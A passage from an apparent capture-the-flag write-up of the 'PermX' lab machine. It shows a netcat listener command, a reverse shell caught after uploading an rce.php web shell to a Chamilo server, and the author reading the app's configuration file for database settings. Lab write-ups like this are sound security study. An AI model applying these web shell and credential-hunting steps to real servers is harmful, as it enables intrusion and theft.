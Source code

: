 ## Shell as www-data

I set up a netcat listener on my machine with `nc 10.10.14.7 -lvnp 1337`, and modified the `rce.php`. and repeated the process to upload the new `rce.php`. Now, after executing it with `curl`, I got the shell as `www-data`

```bash
$ nc 10.10.14.7 -lvnp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.7:1337
Ncat: Connection from 10.10.11.23.
Ncat: Connection from 10.10.11.23:49218.
bash: cannot set terminal process group (1172): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```

started looking around, and after some digging, I found database credentials in `/var/www/chamilo/app/config/configuration.php`

```bash
course_info.conf.dist.php  parameters.yml.dist                                                                                         
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php                                                                      
<?php                                                                                                                                  
// Chamilo version 1.11.24 // File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000                                            
/* For licensing terms, see /license.txt */                                                                                 
/**                                                                                                                         
 * This file contains a list of variables that can be modified by the campus site's server administrator.                   
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.                             
 * If you changed some settings and want to restore them, please have a look at                                             
 * configuration.dist.php. That file is an exact copy of the config file at install time.                                   
 * Besides the $_configuration, a $_settings array also exists, that                                                        
 * contains variables that can be changed and will not break the platform.                                                  
 * These optional settings are defined in the database, now                                                                 
 * (table settings_current).                                                                                                
 */                                                                                                                         

// Database connection settings.                                                                                            
$_configuration['db_host'] = 'localhost';                                                                                   
$_configuration['db_port'] = '3306';                                                                                        
$_configuration['main_database'] = 'chamilo';                                                                               
$_configuration['db_user'] = 'chamilo';                                                                                     
```